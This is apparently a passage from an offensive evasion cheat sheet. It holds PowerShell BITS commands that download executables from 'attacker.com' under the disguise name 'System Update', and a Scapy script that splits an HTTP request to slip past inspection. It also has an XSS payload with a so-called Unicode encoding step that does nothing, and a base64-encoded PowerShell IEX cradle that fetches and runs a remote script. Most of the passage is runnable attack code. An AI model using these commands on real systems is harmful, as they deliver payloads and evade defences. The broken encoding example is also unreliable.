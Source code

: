 ### Alternative - PowerShell BITS

```powershell
# Simple BITS download
Start-BitsTransfer -Source "http://attacker.com/file.exe" -Destination "C:\temp\file.exe"

# Background transfer with notification
Start-BitsTransfer -Source "http://attacker.com/payload.exe" -Destination "C:\temp\payload.exe" -Asynchronous -DisplayName "System Update"
```

---

## 14. Session Splicing - Scapy

```python
# Session splicing example
from scapy.all import *

# Create fragmented HTTP request
packet1 = IP(dst="target.com")/TCP(dport=80)/"GET /ind"
packet2 = IP(dst="target.com")/TCP(dport=80)/"ex.html HTTP/1.1\r\n\r\n"

# Send fragments with delay
send(packet1)
time.sleep(0.1)
send(packet2)
```

---

## 15. Unicode Evasion - Custom Scripts

```python
# Unicode obfuscation
import urllib.parse

# Normal payload
payload = "<script>alert('XSS')</script>"

# Unicode encoded
unicode_payload = payload.encode('utf-16').decode('utf-16')
url_encoded = urllib.parse.quote(unicode_payload)

print(f"Unicode payload: {url_encoded}")
```

### PowerShell Unicode Bypass

```powershell
# Unicode encoded command
$command = "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)

# Execute with Unicode encoding  
powershell -EncodedCommand $encoded
```

---